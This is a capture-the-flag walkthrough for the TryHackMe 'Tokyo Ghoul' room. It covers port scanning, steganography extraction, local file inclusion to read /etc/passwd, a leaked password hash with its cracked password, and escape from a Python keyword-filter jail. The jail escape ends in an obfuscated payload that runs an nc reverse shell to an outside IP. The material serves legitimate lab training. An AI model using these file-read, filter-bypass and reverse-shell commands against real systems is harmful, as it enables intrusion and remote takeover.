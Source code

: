 ```yaml
---

title: Tokyo Ghoul
published: true
category: CTF
system: web
walkthrough-type: thm
source: https://tryhackme.com/room/tokyoghoul666
Description: Help kaneki escape jason room 
tags: security, web, hash, lfi
---
```


<img src="/assets/tuzTqo4.gif" alt="Tokyo Ghoul">

# Where am I?

**Use nmap to scan all ports**

- `sudo nmap tokyo.thm -p-`

**How many ports are open?**

- `3`

**What is the OS used?**

- `sudo nmap tokyo.thm -p21,22,80 -sC -sV -sT -O`

# Planning to escape 

**Did you find the note that the others ghouls gave you? where did you find it ?**

- the website

**What is the key for Rize executable?**

- `strings need_to_talk`

**Use a tool to get the other note from Rize.**

- `steghide extract -sf rize_and_kaneki.jpg -p You_found_1t`

# What Rize is trying to say? 

**What the message mean did you understand it ? what it says?**

- `d1r3c70ry_center`

**Can you see the weakness in the dark ? no ? just search**

gobuster we can find a page to lfi in. sending to gobuster and url encoding lets us access /etc/passwd and the user kamishiro's hash

kamishiro:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:1001:1001:,,,:/home/kamishiro:/bin/bash

**What did you find something ? crack it**

john sucks use hashcat

**what is rize username ?**

kamishiro:password123

# Fight Jason

- `sudo -l` first command tried

jail.py 

```
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

Found a python jail escape here that explains on how to get root shell from a python jail https://anee.me/escaping-python-jails-849c65cf306e

can use the following code to send back a root shell.

- `__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.3.64 6676 >/tmp/f')`